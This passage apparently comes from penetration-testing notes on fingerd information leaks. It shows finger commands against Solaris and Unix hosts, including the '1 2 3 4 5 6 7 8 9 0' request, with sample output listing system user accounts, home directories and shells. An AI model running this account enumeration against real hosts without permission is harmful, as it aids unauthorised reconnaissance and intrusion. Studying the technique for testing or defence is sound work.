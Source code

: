 Various information leak vulnerabilities exist in fingerd implementations. A popular attack involves issuing a '1 2 3 4 5 6 7 8 9 0' request against a Solaris host running fingerd.

```sh
# finger '1 2 3 4 5 6 7 8 9 0'@192.168.0.10

[192.168.0.10]

Login       Name               TTY         Idle    When    Where

root     Super-User            console      <Jun  3 17:22> :0 

admin    Super-User            console      <Jun  3 17:22> :0

daemon          ???                         < .  .  .  . >

bin             ???                         < .  .  .  . >

sys             ???                         < .  .  .  . >

adm      Admin                              < .  .  .  . >

lp       Line Printer Admin                 < .  .  .  . >

uucp     uucp Admin                         < .  .  .  . >

nuucp    uucp Admin                         < .  .  .  . >

listen   Network Admin                      < .  .  .  . >

nobody   Nobody                             < .  .  .  . >
```

Performing a finger <user@target.host> request is especially effective against Linux, BSD, Solaris, and other Unix systems, because it often reveals a number of user accounts.

```sh
# finger user@192.168.189.12

Login: ftp                              Name: FTP User

Directory: /home/ftp                    Shell: /bin/sh

Never logged in.

No mail.

No Plan.



Login: samba                            Name: SAMBA user

Directory: /home/samba                  Shell: /bin/null

Never logged in.

No mail.

No Plan.



Login: test                             Name: test user

```